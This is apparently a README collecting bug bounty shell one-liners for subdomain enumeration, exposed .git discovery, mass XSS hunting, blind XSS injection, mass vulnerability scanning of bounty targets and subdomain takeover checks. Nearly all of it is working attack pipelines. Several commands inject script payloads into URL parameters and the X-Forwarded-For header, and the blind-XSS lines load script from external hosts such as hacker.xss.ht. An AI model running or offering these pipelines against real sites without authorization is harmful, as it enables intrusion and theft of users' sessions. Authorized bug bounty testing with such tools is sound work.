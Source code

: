 # oneliner commands for bug bounties

## Find Subdomain
> projectdiscovery
```
subfinder -d target.com -silent | httpx -silent -o urls.txt
```

## find .git/HEAD
> @ofjaaah
```
curl -s "https://crt.sh/?q=%25.tesla.com&output=json" | jq -r '.[].name_value' | assetfinder -subs-only | sed 's#$#/.git/HEAD#g' | httpx -silent -content-length -status-code 301,302 -timeout 3 -retries 0 -ports 80,8080,443 -threads 500 -title | anew
```

## Find XSS
> cihanmehmet
### Single target
```
gospider -s "https://www.target.com/" -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
### Multiple target
```
gospider -S urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
## Find XSS
> dwisiswant0
```
#/bin/bash

hakrawler -url "${1}" -plain -usewayback -wayback | grep "${1}" | grep "=" | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | qsreplace -a | kxss | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | dalfox pipe -b https://your.xss.ht

# save to .sh, and run bash program.sh target.com
```

## XSS hunting multiple
> @ofjaaah
```
gospider -S domain.txt -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

## BXSS - Bling XSS in Parameters
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```
subfinder -d target.com | gau | grep "&" | bxss -appendMode -payload '"><script src=https://hacker.xss.ht></script>' -parameter
```

## Blind XSS In X-Forwarded-For Header
> [ethicalhackingplayground](https://github.com/ethicalhackingplayground/bxss/)
```
subfinder -d target.com | gau | bxss -payload '"><script src=https://hacker.xss.ht></script>' -header "X-Forwarded-For"
```

## Gxss
> @KathanP19
```
echo "testphp.vulnweb.com" | waybackurls | httpx -silent | Gxss -c 100 -p Xss | grep "URL" | cut -d '"' -f2 | sort -u | dalfox pipe
```

## XSS using gf
> @infosecMatter
```
echo "http://testphp.vulnweb.com/" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf xss | anew 
```

## XSS without gf
> HacktifyS
```
waybackurls testphp.vulnweb.com| grep '=' |qsreplace '"><script>alert(1)</script>' | while read host do ; do curl -s --path-as-is --insecure "$host" | grep -qs "<script>alert(1)</script>" && echo "$host \033[0;31m" Vulnerable;done
```

## XSS qsreplace
> @KingOfBugBounty
```
gospider -a -s https://site.com -t 3 -c 100 |  tr " " "\n" | grep -v ".js" | grep "https://" | grep "=" | qsreplace '%22><svg%20onload=confirm(1);>'
```

## XSS 
> @ofjaah
```
httpx -l master.txt -silent -no-color -threads 300 -location 301,302 | awk '{print $2}' | grep -Eo "(http|https)://[^/"].* | tr -d '[]' | anew  | xargs -I@ sh -c 'gospider -d 0 -s @' | tr ' ' '\n' | grep -Eo '(http|https)://[^/"].*' | grep "=" | qsreplace "<svg onload=alert(1)>"
```

## Dump In-Scope Assests from Bounty Program
### BugCrowd Programs
> @dwisiswant0
```
curl -sL https://github.com/arkadiyt/bounty-targets-data/raw/master/data/bugcrowd_data.json | jq -r '.[].targets.in_scope[] | [.target, .type] | @tsv'
```

## Recon.dev
> @ofjaaah
```
curl "https://recon.dev/api/search?key=YOURAPIKEY&domain=target.com" |jq -r '.[].rawDomains[]' | sed 's/ //g' | anew |httpx -silent | xargs -I@ gospider -d 0 -s @ -c 5 -t 100 -d 5 --blacklist jpg,jpeg,gif,css,tif,tiff,png,ttf,woff,woff2,ico,pdf,svg,txt | grep -Eo '(http|https)://[^/"]+' | anew
```

## Jaeles scan to bugbounty targets.
> @KingOfBugbounty
```
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | anew | httpx -silent -threads 500 | xargs -I@ jaeles scan -s /jaeles-signatures/ -u @
```

## Nuclei scan to bugbounty targets.
> hack_fish
```
wget https://raw.githubusercontent.com/arkadiyt/bounty-targets-data/master/data/domains.txt -nv ; cat domains.txt | httpx -silent | xargs -n 1 gospider -o output -s ; cat output/* | egrep -o 'https?://[^ ]+' | nuclei -t ~/nuclei-templates/ -o result.txt
```

## Endpoints, by apks
> @ofjaaah
```
apktool d app.apk -o uberApk;grep -Phro "(https?://)[\w\.-/]+[\"'\`]" uberApk/ | sed 's#"##g' | anew | grep -v "w3\|android\|github\|http://schemas.android\|google\|http://goo.gl"
```

## Find Subdomains TakeOver
> hahwul
```
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```